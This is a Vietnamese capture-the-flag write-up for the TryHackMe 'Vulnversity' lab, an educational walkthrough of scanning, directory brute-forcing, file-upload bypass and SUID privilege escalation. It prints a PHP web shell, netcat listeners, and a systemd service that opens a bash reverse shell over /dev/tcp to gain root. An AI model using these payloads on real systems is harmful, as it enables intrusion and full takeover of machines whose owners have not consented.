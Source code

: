 # Vulnversity

## 1. Deploy machine
-.- Ấn deploy là được mà bro
## 2. Reconnaissance
Thu thập thông tin về machine dùng công cụ network scanning `Nmap` 
![](img/2021-08-31-00-19-46.png)
```
nmap -sV -sC 10.10.46.196
```
Trong đó :
+ -sV: là xác định các service
+ -sC: chạy các script scan mặc định của nmap
+ -p-400: số port nmap quét
+ -n: không resolve ra dns

Từ đó trả lời các câu hỏi.
+ Scan the box, how many ports are open? : 6
+ What version of the squid proxy is running on the machine? 3.5.12
+ How many ports will nmap scan if the flag -p-400 was used? 400
+ Using the nmap flag -n what will it not resolve? DNS
+ What is the most likely operating system this machine is running? Ubuntu (Thấy các dịch vụ chạy của Ubuntu)
+ What port is the web server running on? : 3333. (Ta thấy có Apache httpd)

## 3. Locating directories using GoBuster
Sử dụng tool `gobuster` để tìm directory của các thư mục.
Trong kali linux thì sẽ có wordlist có sẵn ở thư mục : `/usr/share/wordlists/dirbs/common.txt` (tuy nhiên ở đây mình dùng ubuntu, tải wordlist tại: https://github.com/3ndG4me/KaliLists/tree/master/dirb )

Chạy command : 

```
gobuster dir -u http://10.10.46.196:3333 -w /usr/share/wordlists/dirbs/common.txt
```
Trong đó:
+ -u : target URL
+ -w : địa chỉ wordlist
![](img/2021-08-31-00-35-10.png)
=> kết quả là tìm được url : `/internal/` => truy cập được trang uploads file
## 4. Compromise the webserver
Sử dụng burpsuite community để bắt request và tìm ra extension có thể upload được file lên, mục đích là upload được file shell lên để RCE.

+ Truy cập trang : http://10.10.46.196:3333/internal
![](img/2021-08-31-00-38-55.png)
+ Ấn upload file và dừng ở POST request (intercept is on):
![](img/2021-08-31-00-40-27.png)
+ Chuột phải chọn : `Intruder` (Là trang mà ta có thể bruteforce để tìm ra extension phù hợp) => `Clear$` => bôi đen phần extension của file vừa up lên => `Add$`
![](img/2021-08-31-00-43-34.png)
+ Trang Payloads : thê những extension : `.php`, `.php2`, `.php3`. `.php5`, `.phtml`
![](img/2021-08-31-00-44-56.png)
+ Start attack:
![](img/2021-08-31-00-45-31.png)
Chú ý phần kết quả length của `phtml` khác so với phần còn lại (Do trả về chữ success nhỏ hơn chữ Extension not allowed) => có thể upload file `.phtml`

Bước 1 : chuẩn bị file hehe.phtml
```
<?php
    system($_GET('cmd'));
?>
```
Sau khi upload thành công, truy cập bằng đường dẫn :
```
http://10.10.46.196:3333/internal/uploads/hehe.phtml?cmd=cat /etc/passwd
```
Bước 2 : Thực ra phải tải file shell php của tryhackme gợi ý để có thể RCE bằng netcat
+ Tải file và sửa phần 'CHANGE THIS'
+ Sau đó dùng netcat để nghe trên port '1234':
```
nc -lvnp 1234
```
+ Truy cập vào đường dẫn `http://10.10.46.196:3333/internal/uploads/hehe.phtml` để kích hoạt shell.
+ Quay lại trên trình duyệt và gõ  `cat /etc/passwd`
## 5. Privilege Escalation
*Phần này là phần hay nhất :V*

Ngoài các quyền đặc biệt r, w, x còn có `special permission` đó là : SUID, SGID và sticky bits. Trong bài này dùng SUID.

SUID thường được sử dụng trên các file thực thi. Các file nào có bit `s` thì có thể thực hiện với quyền là chủ sở hữu của file đó.
Ví dụ: file sở hữu bởi root và được set SUID bit, thì bất kể ai thực thi file đó luôn chạy dưới quyền root.
+ Câu lệnh để tìm tất cả các file có SUID:
```
find / -perm -u=s -type f 2>/dev/null
```
Ta được kết quả:

![](img/2021-08-31-01-13-50.png)
+ Và thử :
```
passwd bill
or
passwd
```
Thì không được là do `whoami` đang là www-data, và passwd chỉ có thể dùng được khi bạn à root hoặc là chủ sở hữu của user đó.
=> `/bin/systemctl`

Source chưa các file có thể RCE : https://gtfobins.github.io/

Chạy lệnh ở máy host để lắng nghe ở port 4444:
```
nc -lvnp 4444
```
+ Tạo service chạy dưới systemd với tên `hehe.service`
```
[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.46.196/4444 0>&1'
[Install]
WantedBy=multi-user.target
```
    + `/bin/bash -c` : thực thi shell
    + `bash -i >& /dev/tcp/10.10.46.196/4444 0>&1` : Reverse shell (trong reference)
+ Chạy lệnh
```
systemctl enable /tmp/hehe.service
systemctl start hehe.service
```
+ Quay lại máy host :D và :
```
cat /root/root.txt
```
![](img/2021-08-31-01-24-08.png)

Done

--- 
> Author : dangdh11

> Reference :
> 
Reverse shell : https://www.netsparker.com/blog/web-security/understanding-reverse-shells/
https://hackersploit.org/netcat-tutorials/
https://vinasupport.com/systemd-la-gi-huong-dan-tao-va-quan-ly-systemd-services-tren-linux/
https://gtfobins.github.io/gtfobins/systemctl/
